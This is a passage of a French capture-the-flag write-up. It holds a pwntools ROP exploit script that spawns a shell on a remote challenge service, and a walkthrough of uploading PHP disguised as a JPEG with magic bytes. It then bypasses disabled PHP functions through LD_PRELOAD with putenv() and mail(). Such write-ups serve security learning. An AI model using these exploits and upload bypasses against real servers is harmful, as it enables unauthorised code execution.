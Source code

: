 ça donne une pile comme celle ci:

*gadget + JUNK + JUNK + JUNK + binsh + JUNK + system*

```python
from pwn import *


PORT = 4004 
HOST = "challenges.ecsc-teamfrance.fr" 
r = remote(HOST,PORT)

gadget = p32(0x71134)  # ldr    r0, [sp, #12], add  sp, sp, #20 
system = p32(0x171c4)
bin_sh = p32(0x73844)  # find __libc_start_main,+99999999,"/bin/sh"
JUNK = "AAAA"

payload = "a"*68 + gadget + JUNK + JUNK + JUNK + bin_sh + JUNK + system
r.sendline(payload)
r.interactive()
```

#### Ceci n'est pas une pipe

*Ceci n'est pas une pipe est une plateforme web*

On créer un compte, on se connecte au challenge et on remarque un page qui permet d'uploader des images. Je suspecte que le point d'entrée se trouve ici, je tente d'abord d'uploder des images conformes pour voir comment fonctionne la plateforme.
Les images arrivent dans un dossier spécifique propre à l'utilisateur. Voyons si on peut uploader autre chose que des images...

- un fichier php [fail]
- un fichier php avec le 'contentType' image/jpg [fail]
- un fichier php avec le 'contentType' image/jpg et l'extension.jpg [fail]
- un fichier php avec l'extension.jpg et les magic byte jpeg devant [WIN]

Ok super on a une execution de code sur le serveur (mais ce n'est pas fini)...

je fais un *phpinfo()* pour voir ce qu'il se passe un peu, on a beaucoup de "fonctionDisabled", on va essayer de contourner tout ça.

Une technique assez connu existe et consiste à modifier la variable d'environnement __LDPRELOAD__ avec une librairie qu'on controle puis d'appeler un binaire.
La librairie (qu'on controle) sera chargée en priorité et on pourra executer des commandes sur le serveur directement. Ici c'est possible, en effet les fonctions *putenv()* et *mail()* ne sont pas bloqués.

*putenv()* va servir à modifier la variable d'environnement __LDPRELOAD__, et *mail()* est une façon détourné d'appeler un binaire.
Il existe un outil open source gérant le hook directement (*CHANKRO*)

On genere un payload pour trouver le flag (à base de "*ls*"), il se trouve dans */home/*, on remarque que c'est un executable. On l'execute et on redirige la sortie vers notre dossier perso.

```bash
/home/flag > /www/html/upload/2af487c.../flag.txt
```

puis depuis le site on accede à *www.chall.fr/upload/2af487c.../flag.txt* pour lire le flag.
